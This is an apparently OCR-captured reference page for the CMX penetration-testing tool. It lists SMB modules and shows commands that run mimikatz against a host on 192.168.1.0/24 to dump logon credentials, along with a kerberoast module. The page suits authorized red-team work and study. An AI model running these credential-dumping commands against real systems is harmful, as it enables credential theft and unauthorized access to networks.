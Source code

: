 # SMB: Modules Reference
Created by: @awsmhacks  
Updated: 8/20/19   
CMX Version: 5.0.1
  

**Notes:**  
* The following examples assume you have a Kali Linux host connected to an internal network.    
* For the examples it is also assumed hosts are within a 192.168.1.0/24 IP space.   
* If CMX isnt giving output of anykind, you probably have something wrong with the command.   
  
  
Modules:  
[Mimikatz](#mimikatz)

----------------------------------------------------------------------------------------------------

----------------------------------------------------------------------------------------------------

# Using Modules

## List available SMB modules
Returns a list of loaded modules. The protocol can be replaced, i.e. {smb, winrm}
```
~# cmx smb -L
```
**Expected Results:**
```
[*] enum_av                   Enum AV products on the the remote host(s) via WMI
[*] getcompdetails            Enumerates sysinfo
[*] kerberoast                Kerberoasts all found SPNs for the current domain
[*] mimikatz                  Dumps all logon credentials from memory
```

----------------------------------------------------------------------------------------------------
## List Module Options
Returns options specific to a module
```
~# cmx smb -M <module_name> --options
```
```
~# cmx smb -M mimikatz --options

[*] mimikatz module options:

    Module Options:
           COMMAND  Mimikatz command to execute (default: 'privilege::debug sekurlsa::logonpasswords exit')

cmx --verbose smb 192.168.1.1 -u username -p password -M mimikatz -mo COMMAND='privilege::debug sekurlsa::logonpasswords exit'

```
